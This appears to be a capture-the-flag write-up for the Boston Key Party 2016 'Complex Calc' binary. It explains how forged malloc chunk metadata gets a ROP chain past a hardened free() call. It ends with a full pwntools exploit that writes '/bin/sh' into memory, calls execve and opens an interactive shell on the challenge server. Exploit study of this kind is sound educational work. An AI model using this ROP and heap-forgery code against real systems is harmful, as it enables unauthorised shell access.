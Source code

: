 ```yaml
---
layout: post
title:  "Boston Key Party - PWN 5 ‘Complex Calc’"
date:   2016-03-06
categories: ctf pwn
---
```


Taking a quick look at this binary, we see it's almost idenfical to the 'Simple Calc'. Testing my ROP chain on it, however, crashes in `free`: It looks like `free(0)` won't fly anymore.

To confirm that my ROP was still valid, I set a breakpoint on the call to `free` and manually wrote the pointer to the original buffer into RDI. With this, my ROP indeed did work and I could focus on passing the `free` call.

Peeking into the implementation of `free`, we see that a few NOPs were added to prevent us from providing 0 as the pointer. Looking a bit further, we see `[rdi-8]` and `[rdi-10h]` are referenced. That means that the metadata for the structure exists just _before_ the block.

Breaking on the `malloc` call, and inspecting the memory around, we see that 16 bytes before the returned pointer seems to be always null, while -8 is some odd number. Playing around with the number of calculations requested we see that this number grows with size: It's the size of the block, plus the size of the metadata, then aligned to some multiple of 16.

{% highlight bash %}
0x000000000040143f in main ()
gdb-peda$ x/4gx $rax - 0x10
0x6c8bc0:       0x0000000000000000      0x0000000000000021
0x6c8bd0:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

I got lucky in that I already know about how free works to not have to figure out why the size value is odd: The low bit represents whether or not the allocation is in use. When `free` is called, the bit is set to 0, but also the next block is checked. If that block is also not in use, then the two blocks are coalesced. This is to try to prevent memory fragmentation.

The next block can easily be found by adding the size to the current allocation:

{% highlight bash %}
gdb-peda$ x/4gx $rax - 0x10 + 0x20
0x6c8be0:       0x0000000000000000      0x0000000000020421
0x6c8bf0:       0x0000000000000000      0x0000000000000000
{% endhighlight %}

If we want the `free` call to pass, then we are going to need to pass it a pointer memory that has what looks like a valid malloc block 16 bytes before it. On top of that, we need the _next_ block (determined by adding the _size_ to the pointer) has a _size_ value that is odd, to prevent coalescing.

Luckily for us, we can do just that: In our last ROP we only needed a few of the global vars (`sub` and `divv`), leaving us `add` and `mul` to fill with allocation metadata. Testing with a valid allocation, I confirmed that garbage data at -0x10 doesn't seem to affect the freeing, making our job easier.

Since the ROP is the same, we should only need a few changes:

1. Instead of writing NULL on the stack, we need to be careful to overwrite the buf pointer with a pointer to our fake allocation.
2. We need to write two blocks of junk metadata. The first must have a size that is the correct distance away from the second and have the low bit set. The second must only have the low bit set.

I spent _way_ too much time trying to make these metadata blocks contiguous (16 bytes apart), but eventually realized that the minimum distance is the minimum alloc (1) plus the size of the metadata (16) rounded up. Lucky for us, `add` and `mul` are indeed that distance apart.

I populated the first block by providing two numbers to the app opration whose sum is 0x21. This required a negative number, since there was an unsigned check to ensure the operant is greater than 39.

The second number was easier: I just needed to populate it with any odd number, and the result of 41*41 fit the bill.

What's important to note is that I don't provide `free` a pointer to the metadata, but 16 bytes beyond that, which is `divv`, where I had placed the string "/bin/sh\0". This, I would find out, is very important...

Excitedly running the new exploit and... crash. Wtf? Breaking into it with a debugger and following through the ROP, I saw that my string had been wiped out. Stepping through main, I realized that because I was freeing `divv`, it was getting zeroed out.

Now the issue I had with 'Simple Calc' ended up helping me out: Because I had had to find and use a write mem gadget to get rid of `_dl_tls_static_used`, I was prepared for this: Instead of writing to the global `divv` using calculation caching, I would instead write it _after_ the free as extra ROPs.

{% highlight python %}
import struct

def write_addr(addr):
    return ADD + str(addr-40) + "\n" + "40\n" + NULL

# Commands
ADD = "1\n"
SUB = "2\n"
MUL = "3\n"
DIV = "4\n"
DONE = "5\n"
NULL = SUB+"40\n"+"40\n"
# Gadgets
POP_RDI = write_addr(0x00401b73)
POP_RAX = write_addr(0x0044db34)
POP_RDX = write_addr(0x00437a85)
POP_RSI = write_addr(0x00401c87)
MOV_EDX_TO_AT_RAX = write_addr(0x0044526f)
SYSCALL = write_addr(0x004648e5)
# Globals
addX = 0x6C4A80
addY = addX + 4
addRes = addY + 4
divX = addRes + 8
divY = divX + 4
divRes = divY + 4
mulX = divRes + 8
mulY = mulX + 4
mulRes = mulY + 4
subX = mulRes + 8
subY = subX + 4
subRes = subY + 4
_dl_tls_static_used = 0x6C4AC0

# Build commands
commands = [
    "100\n",  # Any large number
    write_addr(addX+16)*9,  # Fill stack with address of divX. This will wipe it out :(
    # Set _dl_tls_static_used to 0
    POP_RAX,
    write_addr(_dl_tls_static_used),
    POP_RDX,
    NULL, NULL,
    MOV_EDX_TO_AT_RAX,
    # Put "/bin/sh" at divX using ROP
    POP_RAX,
    write_addr(divX),
    POP_RDX,
    write_addr(struct.unpack("<I", b"/bin")[0]),
    MOV_EDX_TO_AT_RAX,
    POP_RAX,
    write_addr(divY),
    POP_RDX,
    write_addr(struct.unpack("<I", b"/sh\x00")[0]),
    MOV_EDX_TO_AT_RAX,
    # Now get ready for syscall
    POP_RDI,
    write_addr(divX),  # divX holds the string "/bin/sh"
    POP_RAX,
    SUB + str(0x3b + 0x1000) + "\n" + "4096\n" + NULL,  # 0x3b = execve
    POP_RDX,
    NULL, NULL,  # RDX should be null
    POP_RSI,  # RSI should point to an array that has a pointer to "/bin/sh" and a null pointer
    write_addr(subY),
    SYSCALL,
    # Now we need to populate the global vars by running extra calcs
    # -- Put pointer to divX at subY with null after
    SUB + str(divX) + "\n" + str(divX) + "\n",
    # Now we need to put two malloc blocks in add and mul
    # The first 8 bytes (x and y) don't matter, it's the result that does
    ADD + "-123\n" + "156\n",  # sum is 0x21
    MUL + "41\n" + "41\n",  # product is odd
    DONE
]

from pwn import *

r = remote("simplecalc.bostonkey.party", 5500)
garbage = r.recv()
r.send("".join(commands))
r.interactive()
{% endhighlight %}
